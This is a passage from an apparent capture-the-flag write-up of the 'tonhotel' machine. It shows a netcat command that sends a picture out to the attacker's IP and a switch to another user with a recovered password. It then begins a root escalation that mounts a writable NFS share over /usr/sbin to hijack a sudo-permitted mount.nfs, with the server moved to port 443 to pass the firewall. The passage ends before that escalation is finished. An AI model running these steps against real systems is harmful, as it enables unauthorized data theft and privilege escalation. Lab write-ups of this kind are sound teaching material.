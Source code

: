 We can transfer it to our machine using `nc`.

```console
$ nc -lvnp 80 > boss.jpg
```

```console
sandra@tonhotel:~$ nc 10.11.72.22 80 < Pictures/boss.jpg
```

Looking at the picture, we get a password and can use it to switch to the `jojo` user. 

![Jojo Password](jojo_password.webp){: width="450" height="550" }

```console
sandra@tonhotel:~$ su - jojo
Password:
$ /bin/bash
jojo@tonhotel:~$ id
uid=1003(jojo) gid=1003(jojo) groups=1003(jojo)
```

### Shell as root

Checking the `sudo` privileges for the `jojo` user, we are able to run the `/usr/sbin/mount.nfs` binary as the `root` user.

```console
jojo@tonhotel:~$ sudo -l
[sudo] password for jojo:
Matching Defaults entries for jojo on tonhotel:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jojo may run the following commands on tonhotel:
    (root) /usr/sbin/mount.nfs
```

`/usr/sbin/mount.nfs` allows us to mount an `NFS` share. We can abuse this by mounting a writable `NFS` share over `/usr/sbin/` and replacing the `/usr/sbin/mount.nfs` with anything we want, and we would still be able to run it as the `root` user with `sudo`.

> At this point, you need to install the `nfs-kernel-server` package, if it is not already installed.
{: .prompt-tip }

First, we need to create a directory to share.

```console
$ mkdir /tmp/share
$ sudo chown nobody:nogroup /tmp/share
$ sudo chmod 777 /tmp/share
```

Since there is a firewall running, we need to configure our `NFS` server to run on a whitelisted port. We can achieve this by modifying the `/etc/nsf.conf` file like this:

```
[nfsd]
port=443
```
{: file="/etc/nsf.conf"}
